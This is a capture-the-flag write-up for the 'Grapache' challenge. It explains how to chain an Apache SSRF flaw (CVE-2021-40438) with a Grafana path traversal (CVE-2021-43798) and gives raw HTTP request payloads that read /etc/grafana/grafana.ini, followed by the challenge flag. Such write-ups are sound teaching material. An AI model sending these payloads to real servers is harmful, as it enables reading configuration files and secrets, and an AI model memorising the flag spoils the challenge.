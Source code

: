 # Grapache

### Challenge Details

Outdated Grafana(vulnerable to CVE-2021-43798), but behind the Apache proxy, with path normalization, can't do direct exploitation. But Apache is vulnerable to CVE-2021-40438, which is an SSRF vuln, so can abuse that SSRF to request to the upstream grafana directly and achieve directory traversal and read files.

### Key Concepts

SSRF, Path traversal

### Solution

```
GET /?unix:{A*4096}|http://grafana:3000/public/plugins/welcome/../../../../../../../../etc/grafana/grafana.ini HTTP/1.1

# The payload below also works, so you don't actually need to know the exact proxy configuration
GET /?unix:|http:///public/plugins/welcome/../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
```

### Learning Objectives

same as Key Concepts

### Flag

```
grey{55rf_w17h_vuln_4p4ch3_847cc276557e198b}
```
